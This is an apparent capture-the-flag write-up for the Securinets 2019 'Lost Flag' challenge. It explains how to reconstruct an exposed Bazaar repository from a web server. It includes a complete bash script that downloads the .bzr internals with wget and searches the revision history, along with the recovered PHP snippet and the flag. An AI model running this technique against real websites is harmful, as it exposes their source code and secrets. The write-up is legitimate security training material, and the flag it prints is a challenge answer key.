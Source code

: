 # Securinets Prequals CTF 2019 – LOST FLAG

* **Category:** Foren
* **Points:** 995

## Challenge

> Help me get back my flag !
> 
> https://web8.ctfsecurinets.com/
> 
> Author: Tr'GFx

## Solution

Connecting to `https://web8.ctfsecurinets.com/.bzr/README` will reveal the presence of a *Bazaar* repository.

A [shell script](lost-flag.sh) can be used to replicate the repository locally.

```bash
#!/bin/bash

echo "[*] Creating local repository."
mkdir ctf-bzr
cd ctf-bzr/
bzr init
echo 'foo' > foo.txt
bzr add
bzr commit -m "foo"
rm foo.txt

echo "[*] Replacing last-revision file."
cd .bzr/branch
rm last-revision
wget https://web8.ctfsecurinets.com/.bzr/branch/last-revision

echo "[*] Replacing dirstate file."
cd ../checkout
rm dirstate
wget https://web8.ctfsecurinets.com/.bzr/checkout/dirstate

echo "[*] Replacing pack-names file."
cd ../repository
rm pack-names
wget https://web8.ctfsecurinets.com/.bzr/repository/pack-names


echo "[*] Using check command to discover missing files."
cd indices/
rm *.cix
rm *.iix
rm *.rix
rm *.six
rm *.tix
cd ../packs
rm *.pack
cd ../../../
while true; do
   CHECK_OUTPUT=$(bzr check 2>&1)
   if [[ $CHECK_OUTPUT == *"bzr: ERROR: No such file:"* ]]; then
      MISSING_FILE=$(echo $CHECK_OUTPUT | sed 's/.*\([0-9a-f]\{32\}\).*/\1/')
      echo "[*] Missing files $MISSING_FILE."
      declare -a EXTENSIONS=("cix" "iix" "rix" "six" "tix")
      for EXTENSION in "${EXTENSIONS[@]}"; do
         TARGET_URL="https://web8.ctfsecurinets.com/.bzr/repository/indices/$MISSING_FILE.$EXTENSION"
         echo "[*] Downloading $TARGET_URL"
         wget $TARGET_URL -P .bzr/repository/indices/
      done
      TARGET_URL="https://web8.ctfsecurinets.com/.bzr/repository/packs/$MISSING_FILE.pack"
      echo "[*] Downloading $TARGET_URL"
      wget $TARGET_URL -P .bzr/repository/packs/
   else
      echo "[*] Probably all missing files have been downloaded."
      break
   fi
done

echo "[*] Reverting missing source files."
bzr revert

echo "[*] Searching the flag into revisions."
R=1
while true; do
   RNEXT=$((R+1))
   
   # Analyzing diff.
   REVISION=$(bzr diff -r$R..$RNEXT)
   if [[ $REVISION == "" ]]; then
      break
   elif [[ $REVISION == *"flag"* ]]; then
      echo "[*] ... $R -> $RNEXT"
      echo $REVISION
   fi

   R=$RNEXT
done
```

Analizyng the `admin.php` file, you will discover it included a `flag.php` file that is missing; that file contains a `$flag` variable with the flag. 

```php
<?php
@include("flag.php");
echo "<H1>Welcome Admin</H1>";

echo "Here's your flag:".$flag;


?>
```

Hence, via the script, all the history can be analyzed to find that file with the flag.

The flag is the following.

```
Securinets{BzzzzzzzzZzzzzzzzzzZrR_roCk$}
```